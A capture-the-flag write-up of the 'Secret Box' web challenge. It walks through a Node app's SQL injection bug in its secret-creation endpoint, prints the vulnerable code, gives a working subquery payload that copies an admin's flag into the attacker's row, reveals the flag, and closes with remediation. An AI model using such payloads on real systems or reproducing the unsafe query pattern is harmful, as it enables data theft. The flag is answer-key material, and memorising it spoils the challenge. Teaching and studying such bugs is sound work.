




# Secret Box — Medium

> **Category:** Web Exploitation
> **Difficulty:** Medium
> **Flag:** `academy{sq1_1nject10n_a6e12f86}`

## Challenge Overview

Secret Box is a small note-taking app: sign up, log in, and write private
"secrets" that only you can read back. One hardcoded account, `admin`, has
a secret containing the real flag. The app correctly restricts every
*read* of secrets to the logged-in user's own rows — but the endpoint that
*creates* a secret builds its SQL query unsafely, allowing a classic
**SQL injection** that smuggles the admin's flag into a secret you own.

## TL;DR

`POST /secrets/create` inserts the submitted `content` directly into a raw
SQL string instead of using a parameterized query. By submitting a payload
that closes the string early and concatenates in a subquery
(`(SELECT content FROM secrets WHERE owner_id='<admin's id>')`), the value
actually written to the database becomes the admin's flag — but the row is
still owned by *you*, so it shows up right on your own homepage.

## Understanding the App First

Before attacking anything, it helps to see how the pieces fit together.

### The database schema (`initdb.sql`)

```sql
CREATE TABLE users (
    id text PRIMARY KEY DEFAULT gen_random_uuid(),
    username text NOT NULL,
    password text NOT NULL,
    created_at timestamptz NOT NULL DEFAULT now()
);

CREATE TABLE tokens (
    id text PRIMARY KEY DEFAULT gen_random_uuid(),
    user_id text NOT NULL REFERENCES users(id),
    created_at timestamptz NOT NULL DEFAULT now(),
    expired_at timestamptz NOT NULL DEFAULT now() + interval '1 days'
);

CREATE TABLE secrets (
    id text PRIMARY KEY DEFAULT gen_random_uuid(),
    owner_id text NOT NULL REFERENCES users(id),
    content text NOT NULL,
    created_at timestamptz NOT NULL DEFAULT now()
);

INSERT INTO users(id, username, password)
VALUES ('e2a66f7d-2ce6-4861-b4aa-be8e069601cb', 'admin', 'fake_password');

INSERT INTO secrets(owner_id, content)
VALUES ('e2a66f7d-2ce6-4861-b4aa-be8e069601cb', 'academy{fake_flag}');
```

This seeds one `admin` account with a **fixed, known UUID**
(`e2a66f7d-2ce6-4861-b4aa-be8e069601cb`) and one secret row owned by that
account. At container startup, `db.js` overwrites that placeholder
password and secret with the real values:

```js
// db.js
await db('users')
  .where({ id: 'e2a66f7d-2ce6-4861-b4aa-be8e069601cb' })
  .update({ password: process.env.USERPASSWORD });

await db('secrets')
  .where({ owner_id: 'e2a66f7d-2ce6-4861-b4aa-be8e069601cb' })
  .update({ content: process.env.FLAG });
```

So the real flag lives in exactly one row: admin's `secrets.content`.

### Authentication (`handler.js`)

```js
const authMiddleware = async (req, res, next) => {
    const cookies = getCookies(req.headers.cookie);
    const token = cookies.auth_token;

    if (!token) { return next(); }

    const query = await db.raw(
        `SELECT * FROM tokens WHERE id = ? AND expired_at > NOW()`,
        [token]
    );

    if (query.rows.length <= 0) {
        res.clearCookie('auth_token');
        return res.render('index', { error: 'Invalid or expired token' });
    }

    req.userId = query.rows[0].user_id;
    return next();
};
```

Every protected route runs this first. It reads the `auth_token` cookie,
looks it up in the `tokens` table, and — if valid — attaches `req.userId`
so the rest of the app knows who's logged in. This query is safely
**parameterized** (`?` + `[token]`), so it isn't the vulnerable part.

### Reading secrets (`server.js`, `GET /`)

```js
app.get('/', authMiddleware, async (req, res) => {
    const userId = req.userId;
    if (userId) {
        const query = await db.raw(
            `SELECT * FROM secrets WHERE owner_id = ?`,
            [userId]
        );
        return res.render('my_secrets', { secrets: query.rows });
    }
    ...
});
```

Also safely parameterized — you only ever see secrets where
`owner_id` matches your own session's `userId`. This is the "lock" on the
diary: there's no way to directly query someone else's secrets here.

### Creating secrets — the vulnerable endpoint (`server.js`, `POST /secrets/create`)

```js
app.post('/secrets/create', authMiddleware, async (req, res) => {
    const userId = req.userId;
    const content = req.body.content;

    const query = await db.raw(
        `INSERT INTO secrets(owner_id, content) VALUES ('${userId}', '${content}')`
    );

    return res.redirect('/');
});
```

Here's the bug: instead of using `?` placeholders like every other query
in the app, `content` is spliced directly into the SQL string using a
template literal. Since `content` is fully attacker-controlled (it's
whatever you type into the "create secret" form), this is a classic **SQL
injection** point.

## Step-by-Step Exploitation

### 1. Sign up and log in

Create an account so `authMiddleware` sets a valid `req.userId`, giving
access to the protected `/secrets/create` route.




### 2. Understand what we're injecting into

Every submitted secret gets wrapped into this template:

```sql
INSERT INTO secrets(owner_id, content) VALUES ('<your-user-id>', '<content>')
```

The `INSERT` only accepts exactly 2 values (matching the 2 named columns),
so simply adding a comma and a 3rd value breaks the query. Instead, the
goal is to make the **second value itself** evaluate to a subquery result,
not a literal string.

### 3. Craft the payload

Postgres lets you concatenate a string and a subquery's result using `||`.
Since the template already wraps our input in quotes, we can close that
quote early, concatenate in a subquery, then reopen an empty string to
balance out the template's own trailing quote:

```
' || (SELECT content FROM secrets WHERE owner_id='e2a66f7d-2ce6-4861-b4aa-be8e069601cb') || '
```

Substituting this into the template gives:

```sql
INSERT INTO secrets(owner_id, content)
VALUES ('<your-user-id>', '' || (SELECT content FROM secrets WHERE owner_id='e2a66f7d-2ce6-4861-b4aa-be8e069601cb') || '')
```

Which is valid SQL: `'' || <admin's flag> || ''` simplifies to just the
admin's flag text — and crucially, **still only 2 values** are passed to
`VALUES(...)`, so the column count matches and the query succeeds.

### 4. Submit the payload

On the "Create A New Secret" page, paste the payload exactly into the
`Content` field and submit:



This sends a `POST /secrets/create`, running the vulnerable `INSERT` with
the payload spliced in.

### 5. Check the result

The route redirects back to `/`, which runs
`SELECT * FROM secrets WHERE owner_id = <your id>`. Since the newly
inserted row is legitimately owned by you — only its *content* was
hijacked — it shows up right on your own homepage, containing the flag
instead of literal text:



```
academy{sq1_1nject10n_a6e12f86}
```

## Why This Works — In Plain Terms

Every other query in this app treats user input as **pure data** — safely
handed to the database as a value that can never be mistaken for part of
the command itself, thanks to parameterized queries (`?` + a separate
values array).

The `/secrets/create` endpoint breaks that rule: it glues user input
directly into the SQL command text using string interpolation. A single
`'` inside `content` is enough to "escape" out of the intended string
literal, letting anything after it be interpreted as more SQL — in this
case, a `||` concatenation pulling in a subquery result instead of the
literal text that was supposed to be saved.

The ownership check (`owner_id = ?`) on the *read* side was never broken —
the trick doesn't bypass it. Instead, it exploits the *write* side to make
a row you legitimately own contain data it was never supposed to contain.

## Root Cause

**SQL Injection** via string concatenation instead of parameterized
queries. `req.body.content` is inserted into a raw SQL string without any
escaping or use of query placeholders, allowing arbitrary SQL expressions
to be injected in place of the intended literal value.

## Remediation

- **Always use parameterized queries** for any value that comes from user
  input — exactly like the rest of this app already does elsewhere:
  ```js
  await db.raw(
      `INSERT INTO secrets(owner_id, content) VALUES (?, ?)`,
      [userId, content]
  );
  ```
  This ensures `content` is always treated as a literal value, never as
  part of the SQL command, regardless of what characters it contains.
- Apply the principle consistently across *every* query in the codebase —
  a single unsafe query is enough to compromise the whole app, even when
  every other query is written correctly.
- Consider using an ORM's built-in insert methods (e.g. `db('secrets').insert({ owner_id: userId, content })`
  with Knex) instead of raw SQL strings where possible, since they
  parameterize values by default.
- Apply the principle of least privilege at the database level too — the
  app's DB user shouldn't need permission to read rows outside what the
  application logic intends to expose.

## Tools Used

- Browser — signing up, logging in, and submitting the crafted payload
  through the app's own forms
- Manual SQL injection payload construction (no automated tooling needed
  for this one)
